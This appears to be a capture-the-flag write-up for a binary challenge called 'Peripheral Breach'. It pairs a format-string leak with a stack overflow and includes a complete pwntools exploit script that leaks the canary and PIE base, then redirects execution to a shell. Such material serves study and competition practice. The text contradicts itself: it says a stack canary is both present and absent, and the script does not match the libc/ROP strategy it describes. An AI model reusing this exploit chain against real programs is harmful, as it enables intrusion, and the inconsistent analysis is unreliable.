# Peripheral Breach - Writeup

---

## Exploit Demo

This demo illustrates the exploit process:

![Alt text](gif/PeripheralBreach.gif)

---

## Binary Inspection

We begin by analyzing the binary for reverse engineering and exploitation.

### Step 1: Checking binary format

```bash
$ file main
```

The binary is a 64-bit dynamically linked PIE executable, not stripped.

![Alt text](img/1.png)

---

### Step 2: Checking binary security

```bash
$ pwn checksec main
```

The binary is protected with:

- Full RELRO
- NX enabled
- PIE enabled
- Stack canary

![Alt text](img/2.png)

---

## Static Analysis (IDA Pro)

Reversing the binary in IDA Pro reveals two key vulnerabilities that can be chained for exploitation:

### 1. `download_file()` – Format String Vulnerability

```c
printf((const char *)(file_list[v1] + 32LL));
```

![Alt text](img/3.png)

- The file content is passed **directly** to `printf()` without a format string, which introduces a **format string vulnerability**.
- This can be used to **leak memory**, such as **libc addresses** or **PIE base**, which bypasses ASLR and PIE protection.

### 2. `edit_file()` – Stack-Based Buffer Overflow

```c
safe_read(&v1, 256LL);
```

![Alt text](img/3.png)

- The buffer `v1` is a 4-byte stack variable, but `safe_read()` reads up to **256 bytes**, causing a **classic stack overflow**.
- Since there's **no stack canary**, this allows full **control over the return address**.

Together, these two bugs form a powerful exploitation chain:

- Use `download_file()` to **leak libc and PIE addresses** via the format string bug.
- Then use `edit_file()` to **overwrite the return address** with a ROP chain or jump to a one_gadget in libc.
- The presence of `libc.so.6` (provided in the challenge) makes it possible to calculate offsets and call `system("/bin/sh")`.

---

## How to Solve

1. Use `download_file()` to leak a libc address (e.g., via `%p`, `%s` format string specifiers).
2. Calculate the base address of libc using known offsets.
3. Use `edit_file()` to trigger a stack-based buffer overflow.
4. Overwrite the return address with a ROP chain that calls `system("/bin/sh")`.

---

## Vulnerability Summary

- **Format String** in `download_file()` → leak libc or PIE addresses.
- **Buffer Overflow** in `edit_file()` → hijack control flow.
- **No stack canary** → reliable overflow.
- **PIE + NX + Full RELRO** → mitigations in place, but all bypassable with this bug combo.
- **libc.so.6 provided** → exact offsets known.

---

## Exploit Strategy

1. Upload a file with controlled content.
2. Trigger the format string vuln via `download_file()` to leak libc address.
3. Calculate libc base.
4. Overflow the stack in `edit_file()` and redirect execution to `system("/bin/sh")` using ROP.

---

## Exploit Script

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'main')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Full RELRO
# Stack:      Canary found
# NX:         NX enabled
# PIE:        PIE enabled
# Stripped:   No

io = start()


io.sendlineafter(b'? ', b's')
io.sendlineafter(b'filename to print: ', b'%39$p %107$p')
io.sendlineafter(b'Enter URL: ', b'URL')

data = io.recvline_contains(b'Confirm printing:').strip()
leak_vals = data.split(b' from ')[0].split()
log.info(f"raw leaks: {leak_vals}")

canary = int(leak_vals[2], 16)
main = int(leak_vals[3], 16)
log.success(f"canary = {hex(canary)}")
log.success(f"main = {hex(main)}")

exe.address = main - exe.sym['main']
log.success(f"PIE base = {hex(exe.address)}")

maintain = exe.symbols['maintain']
log.success(f"maintain() = {hex(maintain)}")

rop = ROP(exe)
ret = rop.find_gadget(['ret'])[0]


io.sendlineafter(b'Enter credentials: ', flat(
    b'A'*264,
    p64(canary),
    p64(ret),
    p64(ret),
    p64(maintain)
))


io.interactive()


```

---

## Result

After successful exploitation, the program executes:

```c
system("/bin/sh");
```

This gives us a shell to reveal the flag.

---

## FLAG

The flag will be displayed in the output after successful execution.

```
RedPointer{myp@ss!}
```
